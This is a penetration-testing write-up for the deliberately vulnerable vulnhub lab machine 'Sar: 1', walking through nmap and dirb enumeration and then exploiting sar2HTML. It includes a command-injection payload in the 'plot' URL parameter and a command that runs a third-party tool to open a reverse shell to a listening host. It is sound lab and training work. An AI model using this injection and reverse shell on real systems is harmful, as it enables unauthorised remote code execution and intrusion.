



<p align="center"><br></p>

# Introduction

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

This box is on the <a href="https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0">NetSecFocus Admin list</a> of OSCP-like machines. It’s <a href="https://www.vulnhub.com/entry/sar-1,425/">SAR: 1</a> from vulnhub.

## Setup Machine

First of all, I setup <a href="https://www.vulnhub.com/entry/sar-1,425/">sar machine</a> locally in a virtualMachine with the name **sar** then started it.
After starting the machine, I got its IP address using **VBoxManage** command
```bash
$> VBoxManage guestproperty enumerate sar | grep IP
```
<p align="center"></p><br>

## Enumeration

### Nmap

The first step to penatrate a machine is gather information about it. After getting its IP address we can scan its to get open ports and service using **nmap** command

```bash
$> nmap FLAGS IPADDRESS
-A flag for aggressive scanning
-sV flag detect running services and their version
```

<p align="center"></p><br>

### Fuzzing

The output shows that we have port 80 open, so we can access the ip via browser, The default page shows apache info page.
The next step is searching for more directories and files, to do that we can use **dirb** tool

```bash
$> dirb http://IPADDRESS/ /path/to/wordlist
```

<p align="center"></p><br>

The output of **dirb** tool shows 3 valid paths, `index.html` which is the default apache page, `phpinfo.php` shows php info, and finally `robots.txt` that has `sar2HTML` text.
I put that text as path in URL and I got the following page

<p align="center"></p><br>

### Exploiting

After reading the content I decided to look up sar2Html in google, and I found that it is a service that has a Remote Code Execution vulnerability, I exploited it as described in <a href="https://www.exploit-db.com/exploits/47204">exploit-db</a>, `IPADDRESS/sar2HTML/index.php?plot=;<command>` this will execute the command and show the output of it in select host droplist at the left of the page.

<p align="center"></p><br>

After executing the command I immediately thought of a reverse shell, I found this <a href="https://github.com/AssassinUKG/sar2HTML">Reverse Shell for sar2HTML</a> and executed it as follow

```bash
$> ./sar2HTML -ip MACHINEIPADDRESS -rip LISTENING_SERVER_FOR_REVERSE_SHELL -pe DIRECTORY
```
running `rs session` on the webShell will create a server listening on IP:PORT provided in `-rip` flag with a Reverse Shell.
after getting the reverse shell I started checking the current directory, which is `/sar2HTML`, then back one step to parent directory which is `/var/www/html`, I found in this directory 2 suspicious files, `finally.sh` with root owner and `write.sh` with current user which is `www-data`.
after printing their content I found that `finally.sh` execute `write.sh` file, where `write.sh` file create `/tmp/gateway` file using `touch` command. Thats all I could get for now 
<p align="center"></p><br>

### LinPEAS


